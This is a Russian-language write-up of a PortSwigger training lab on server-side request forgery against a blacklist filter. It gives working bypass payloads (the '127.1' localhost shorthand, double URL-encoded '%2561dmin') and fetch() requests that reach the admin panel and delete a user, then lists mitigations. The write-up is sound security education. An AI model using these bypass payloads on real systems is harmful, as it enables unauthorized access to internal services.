



# PortSwigger Lab: SSRF with blacklist-based input filter

## Описание лаборатории
- **Платформа:** PortSwigger Web Security Academy
- **Сложность:** Practitioner
- **Цель:** Изменить URL проверки наличия товара, чтобы получить доступ к интерфейсу администратора по адресу `http://localhost/admin`, и удалить пользователя `carlos`. Разработчик внедрил две слабые защиты от SSRF, которые необходимо обойти.

## Анализ уязвимости
Функционал проверки наличия товара (`/product/stock`) уязвим к SSRF. Разработчик попытался исправить это, реализовав фильтр на основе черного списка, который блокирует запросы, содержащие строку `localhost` или путь `/admin`.

Однако фильтр слабый и может быть обойден с помощью URL-кодирования и альтернативных представлений IP-адресов. Сервер по-прежнему обрабатывает предоставленный пользователем URL без строгой проверки.

## Шаги эксплуатации
1. Перехвачен запрос проверки наличия товара, и предпринята попытка доступа к панели администратора с использованием стандартного пейлоада:
   ```text
   stockApi=http://localhost/admin
   ```
   Сервер заблокировал запрос с сообщением: `"External stock check blocked for security reasons"`.
2. Фильтр IP-адресов обойден с использованием сокращенной записи локального хоста `127.1`.
3. Фильтр путей обойден с помощью двойного URL-кодирования буквы 'a' в слове "admin" (`%2561dmin`).
4. Отправлен следующий пейлоад для доступа к панели администратора:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://127.1/%2561dmin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
   Сервер вернул HTML-код панели администратора, включая ссылку для удаления пользователя `carlos`.
5. Отправлен финальный пейлоад для удаления `carlos`:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://127.1/%2561dmin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
6. Пользователь был успешно удален, и лаборатория решена.

## Доказательства

### Блокировка стандартного пейлоада фильтром


### Обход фильтра (Доступ к панели администратора)


### Лаборатория решена (Удаление и успех)


## Меры защиты (Mitigation)
Для предотвращения этой уязвимости приложение должно реализовать надежную защиту от SSRF.
1. **Валидация по белому списку:** Вместо черного списка разрешать запросы только к определенным доверенным доменам.
2. **Строгий парсинг IP:** Убедиться, что парсер URL корректно распознает альтернативные представления IP-адресов (такие как `127.1`, десятичные или шестнадцатеричные) и блокирует их.
3. **Запрет URL-кодирования:** Не принимать дважды закодированные URL для действий, изменяющих состояние.